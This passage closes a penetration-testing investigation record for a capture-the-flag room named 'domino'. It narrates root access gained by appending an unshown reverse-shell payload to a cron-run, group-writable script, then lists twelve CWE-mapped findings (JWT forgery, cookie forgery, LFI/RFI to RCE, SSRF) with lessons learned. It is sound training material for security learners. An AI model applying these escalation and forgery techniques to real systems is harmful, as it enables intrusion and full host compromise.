`pspy64` surfaced a persistent root-owned Python process, `/opt/admin_bot.py` (the same SSRF script from Phase 9), managed by a systemd unit (`admin-bot.service`, `User=root`, `Restart=always`). File permissions showed it was world-writable (`rwxrwxrwx`).

#### Hypotheses

A world-writable, root-executed, auto-restarting script is a complete privilege-escalation primitive if a restart trigger can be found that `devops` can invoke.

#### Actions and Experiments

Systematic enumeration of possible restart triggers: `sudo -l` (denied), SUID binaries (nothing custom), `cron.hourly`/`cron.daily` (nothing custom), `logrotate.d` (nothing custom), a direct `systemctl restart` attempt (denied, but informative — PolicyKit prompted for the `ubuntu` account specifically, not `devops`). Also found a second, separate write primitive: `/opt/monitoring/health_report.sh`, group-writable by `devops`'s group, but with no confirmed execution trigger found in any of the standard locations checked so far.

#### Results

No restart trigger for `admin-bot.service` was ever found — this avenue was left genuinely unresolved (see Section 7). As a speculative attempt, a reverse-shell payload was appended to `health_report.sh` at the end of a prior session, reasoning that root ownership implied *some* execution path even though none was confirmed yet.

A fresh `pspy64` run in a later session showed `health_report.sh` executing as `UID=0` on a genuine 60-second cadence (two timestamps 60 seconds apart, not a single startup artifact) — only achievable by a `* * * * *`-style cron entry. `/etc/crontab` and `/etc/cron.d/` were checked and ruled out (only stock entries); `/var/spool/cron/crontabs/` denied access outright on both a directory listing and a direct file read. This pointed to the job being defined in root's own personal crontab — a location correctly inaccessible to `devops` even though the target script itself is group-writable to that same user. The `pspy64` timing evidence alone was sufficient to confirm the primitive without needing to read that file.

With the payload already in place from the earlier session, the next 60-second tick fired it, and a reverse shell connected as `root`. **Flag captured** from `/root/root.txt` (redacted), identity confirmed three separate ways (`id`, `whoami`, `pwd`): `THM{[REDACTED]}`.

#### Analysis

Two independent root-owned write primitives existed on the same host (`admin_bot.py` / world-writable + `Restart=always`, and `health_report.sh` / group-writable + cron-triggered). Only the second was ever confirmed to have a working, accessible execution trigger. The key reasoning step was treating a `Permission denied` on `/var/spool/cron/crontabs/` as *confirming* evidence (a personal root crontab exists and is correctly locked down) rather than a dead end, once the world-readable schedule locations had already been ruled out.

#### Failed Attempts / Dead Ends

The `admin_bot.py` / `admin-bot.service` avenue: fully mapped as a write primitive, but no restart trigger was ever found despite enumerating `sudo`, SUID, cron, logrotate, and a direct restart attempt. Left open rather than abandoned — see Section 7.

#### Findings

Confirmed: world-writable root-owned automation script (CWE-732), privilege escalation not completed via this avenue. Confirmed: cron-triggered group-writable script → full root compromise (CWE-732), the avenue that actually worked.

#### Evidence

Raw session notes (Findings 4.10–4.12).



*(Note: this screenshot was not referenced in either original draft; it was not used in `writeups/domino.md` either. It likely shows the flag in-frame and should be treated the same way as `admin-profile.png` if ever pulled into a writeup.)*

#### Remaining Questions

See Section 7 (`admin_bot.py` restart trigger, `getcap` sweep, PolicyKit rules never read).

#### Next Steps

None — room completed.

## 5. Vulnerability Candidates

All candidates reached "Confirmed" status by the end of the investigation; see Section 6 for the full writeup-ready detail. The `admin_bot.py`/`admin-bot.service` write primitive (Phase 11) is tracked separately in Section 7 as an unresolved avenue rather than a candidate, since it was fully characterized but never completed to impact.

## 6. Confirmed Vulnerabilities

1. **Username Enumeration** (CWE-203) — `/forgot.php` response differs by account existence. Low impact alone; the seed for everything else.
2. **Password Reuse / Weak Shared Credential** (CWE-521) — 3 of 7 accounts shared the password `password`. Gave the first authenticated foothold.
3. **JWT Signature Verification Disabled** (CWE-347) — `verify_jwt()`'s signature check is commented out; any authenticated user can mint an admin-role JWT.
4. **Local File Inclusion / Path Traversal** (CWE-22, partially mitigated) — containment check normalizes paths correctly against `../` traversal, but doesn't account for the API's own directory depth, letting a single `../` disclose source one level up.
5. **Hardcoded Secrets in Source** (CWE-798) — `DB_PASS`, `JWT_SECRET`, `APP_SECRET` all hardcoded in `config.php`, disclosed via Finding 4.
6. **Session Cookie Forgery → Full Administrative Impersonation** (CWE-290) — `APP_SECRET` leak lets an attacker forge a valid `nexus_session` cookie for any `user_id`, including the CISO.
7. **IDOR — Horizontal Privilege Escalation** (CWE-639) — `/api/users/profile.php?id=` has no ownership/role check; independent of Findings 3–6.
8. **Remote File Inclusion → Remote Code Execution** (CWE-98) — the same `name=` parameter from Finding 4 fetches and executes a remote URL, not just local files.
9. **SSRF via Ticket-Review Automation** (CWE-918) — `admin_bot.py` regexes ticket content for URLs and issues an authenticated-as-admin, root-run `requests.get()` against them.
10. **Credential Reuse — DB Password as OS Password** (CWE-521) — `DB_PASS` from Finding 5 is also the `devops` OS account's password.
11. **World-Writable Root-Owned Automation Script** (CWE-732) — `admin_bot.py` is `rwxrwxrwx`, executed by a `Restart=always` systemd service as root; restart trigger never found, so impact was never realized.
12. **Cron-Triggered Group-Writable Script → Full Root Compromise** (CWE-732) — `health_report.sh` is group-writable to `devops`'s group and executed every 60 seconds by a job in root's personal crontab; this is the primitive that actually delivered root.

Full reproduction detail, request/response transcripts, and source excerpts for each: see `investigations/domino/evidence/raw-session-notes-vuln-report.md` (Findings 4.1–4.12) and `investigations/domino/evidence/raw-session-notes-narrative.md`.

## 7. Rabbit Holes and Disproven Hypotheses

- **"Blind XSS" against ticket review (Phase 9):** reasoned that an "admin reviews tickets" feature plus unsanitized message storage implied a headless-browser XSS reachable target. Both cookie-exfiltration and authenticated-fetch-exfiltration payloads returned empty results consistently. Disproven once OS access revealed `admin_bot.py` is a plain regex-and-`requests.get()` script with no browser or JS execution at all — the real vulnerability class is SSRF, not XSS. Lesson: a request landing on your listener confirms *something* is processing input server-side; it does not confirm *how*, and a payload that "mostly works" (fires, but returns nothing useful) is a signal to find the actual server-side code rather than iterate on payload variants.
- **`admin_bot.py`/`admin-bot.service` restart trigger:** fully mapped as a world-writable, root-executed, auto-restarting script, which is a textbook privesc primitive in theory. Exhausted `sudo -l`, SUID binaries, `cron.hourly`/`cron.daily`, `logrotate.d`, and a direct `systemctl restart` attempt (denied, PolicyKit-scoped to `ubuntu`, not `devops`) without finding an accessible trigger. Never disproven outright, left genuinely open — unlike the XSS hypothesis, this wasn't wrong, just unresolved when a different primitive (`health_report.sh`) was found and worked first. `getcap -r /` and the PolicyKit rule files were identified as the next steps but never executed.

## 8. Evidence and Artifacts

| ID    | Description                                              | Location                                                                     | Related Finding |
|-------|-----------------------------------------------------------|-------------------------------------------------------------------------------|------------------|
| E-001 | Full narrative session notes (one engagement draft)        | `investigations/domino/evidence/raw-session-notes-narrative.md`              | All phases |
| E-002 | Full vulnerability-report-style session notes (second draft) | `investigations/domino/evidence/raw-session-notes-vuln-report.md`           | All phases, especially Section 6 (CWE mapping) |
| E-003 | Login page screenshot                                      | `investigations/domino/evidence/images/login.png`                            | Phase 1 |
| E-004 | "Our Team" page screenshot                                 | `investigations/domino/evidence/images/our-team-page.png`                    | Phase 1 |
| E-005 | Dashboard screenshot (emma.taylor)                          | `investigations/domino/evidence/images/emma-taylor-dashboard.png`            | Phase 3 |
| E-006 | Support tickets page screenshot                             | `investigations/domino/evidence/images/support-tickets.png`                  | Phase 3 |
| E-007 | Open ticket page screenshot                                 | `investigations/domino/evidence/images/open-ticket.png`                      | Phase 3 |
| E-008 | Forged-cookie admin dashboard screenshot                     | `investigations/domino/evidence/images/admin-dashboard.png`                  | Phase 6 |
| E-009 | Admin console screenshot                                    | `investigations/domino/evidence/images/admin-console.png`                    | Phase 6 |
| E-010 | IDOR profile-disclosure screenshot — **shows flag 1 in-frame, unredacted** | `investigations/domino/evidence/images/admin-profile.png` | Phase 7 |
| E-011 | XSS/SSRF test screenshot                                    | `investigations/domino/evidence/images/xss-test.png`                         | Phase 9 |
| E-012 | Attacker HTTP server screenshot                             | `investigations/domino/evidence/images/http-server.png`                      | Phase 8 |
| E-013 | Reverse-shell listener/server setup screenshot               | `investigations/domino/evidence/images/reverse-shell-setup.png`              | Phase 8 |
| E-014 | Root shell screenshot — **likely shows flag 5 in-frame, unredacted** | `investigations/domino/evidence/images/root-shell.png`             | Phase 11 |
| E-015 | Disclosed PHP source files (`index.php`, `auth.php`, `config.php`, `dashboard.php`, `forgot.php`, `admin.index.php`, `support.create.php`, `support.index.php`) | `investigations/domino/evidence/sources/` | Phases 5, 6, 9 |
| E-016 | `admin_bot.py` (SSRF automation source)                      | `investigations/domino/evidence/sources/admin-bot.py`                        | Phase 9, 11 |
| E-017 | `generate-cookie.py` (session-forgery helper script)          | `investigations/domino/evidence/sources/generate-cookie.py`                  | Phase 6 |

## 9. Technical Knowledge and Lessons Learned

### Concepts

- JWT "verification" that only checks expiry, not signature, is equivalent to no authentication on the claims at all — the `role` claim becomes fully attacker-controlled.
- A path-containment check correct for local traversal (`realpath()`-style normalization) does not generalize to a remote URL, which can't be resolved the same way.
- Two independently-discovered root-owned write primitives on one host (a `Restart=always` service and a cron job) are both instances of the same misconfiguration class: a non-root-writable path reaching root-level execution. Permissions and execution triggers need auditing together, not separately.

### Techniques

- Decoding a JWT locally (base64url, no secret needed) to read its claims before touching the signature at all — cheap, non-destructive, and often enough to form a testable hypothesis.
- Using a known in-bounds file read to fingerprint the actual working directory implied by an LFI's error message, rather than trusting the error message's stated base path literally.
- Differentiating "fetched and displayed" from "fetched and executed" with an arithmetic payload (`1337*2`) before moving to a differentiating `system()` call — confirms RCE in stages rather than jumping straight to a reverse shell.
- Treating a `Permission denied` on a specific, expected location (`/var/spool/cron/crontabs/`) as positive evidence that a personal crontab exists there, once the world-readable alternatives are already ruled out.

### Lessons

- A request landing on an attacker-controlled listener is necessary but not sufficient evidence for a specific vulnerability class (Phase 9's XSS misdiagnosis) — confirm the actual server-side mechanism before committing to a technique.
- An unresolved hypothesis (the `admin_bot.py` restart trigger) is not a failure if it's recorded as unresolved rather than abandoned silently; a second host-level primitive can and did resolve the engagement without it.

### Future Applications

Apply the "confirm the server-side mechanism, not just that a payload fires" lesson to any future blind-injection-style finding before writing a root-cause explanation. Apply the "audit permissions and execution triggers together" lesson as a standing step whenever a writable, privileged file is found during post-exploitation.

## 10. Final Investigation Summary

### Investigation Outcome

Full compromise, zero credentials to root, via a chained set of independently minor web-app issues plus a second, separate OS-level misconfiguration for privilege escalation.

### Confirmed Vulnerabilities

Twelve findings; see Section 6.

### Unsuccessful Investigations

The initial "blind XSS" hypothesis for the ticket-review feature (Phase 9, disproven — real root cause is SSRF). The `admin_bot.py`/`admin-bot.service` restart-trigger search (Phase 11, unresolved, not disproven).

### Unresolved Issues

See Section 2 (Open Questions) and Section 7.

### Final Status

Completed. `user.txt` and `root.txt` both obtained; flags redacted in this file per workflow policy, available in the raw session notes (evidence) and in two screenshots noted in Section 8.

## 11. Writeup Handoff

- Investigation File: `investigations/domino/investigation.md`
- Final Writeup: `writeups/domino.md`
- Writeup Status: Generated directly from `raw-session-notes-narrative.md` (the more narrative-styled of the two raw drafts), with flags redacted and image paths updated to point at `investigations/domino/evidence/images/`.
- Important Narrative Events: The IDOR finding (Phase 7) being independent of the admin-impersonation chain; the Phase 9 XSS-to-SSRF correction; the Phase 11 two-primitive privilege-escalation story (one fully mapped but never completed, one that worked).
- Evidence References: See Section 8. Two images (`admin-profile.png`, `root-shell.png`) show flag text in-frame and are flagged accordingly wherever referenced.
- Special Instructions: `raw-session-notes-vuln-report.md` (the second, CWE-structured draft) was used as a secondary source for this investigation record but was not itself converted into a second writeup; it remains available as evidence if a bug-bounty-report-style writeup is ever wanted for this room instead of the narrative one already produced.
